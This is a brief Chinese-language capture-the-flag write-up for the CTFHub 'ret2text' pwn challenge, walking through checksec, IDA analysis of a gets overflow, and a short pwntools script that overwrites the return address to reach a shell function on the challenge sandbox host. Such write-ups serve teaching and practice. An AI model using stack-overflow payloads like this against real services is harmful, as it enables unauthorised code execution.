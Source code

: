 # CTFHUB-PWN-ret2text

简单栈溢出

下载文件 checksec看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/1bf16d7e61a188e4fb35b6eb3f393e6b.png" alt="" style="max-height:292px; box-sizing:content-box;" />


64位

放入ida64 查看字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/77aedf6204bba40d30bcc0298c1efa09.png" alt="" style="max-height:401px; box-sizing:content-box;" />


得到shell

然后看看主函数怎么输入



<img src="https://i-blog.csdnimg.cn/blog_migrate/3c5bd4d0b37a745fc92a2edbc4259b9b.png" alt="" style="max-height:189px; box-sizing:content-box;" />


get的危险函数

记住 v4为70h

然后看看shell的地址是多少

<img src="https://i-blog.csdnimg.cn/blog_migrate/47801167883317f7cc6808d81f5ed476.png" alt="" style="max-height:140px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/9e7c7c73d962ffa7acae52a74f04bee4.png" alt="" style="max-height:590px; box-sizing:content-box;" />


4007B8

然后我们可以开始写payload

```cobol
from pwn import *
p=remote('challenge-63285d134b7b0e28.sandbox.ctfhub.com',37331)
payload=b'A'*(0x70+0x08)+p64(0x4007B8)
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c6c1d14cf94c9cc4b9af2937a26745d1.png" alt="" style="max-height:416px; box-sizing:content-box;" />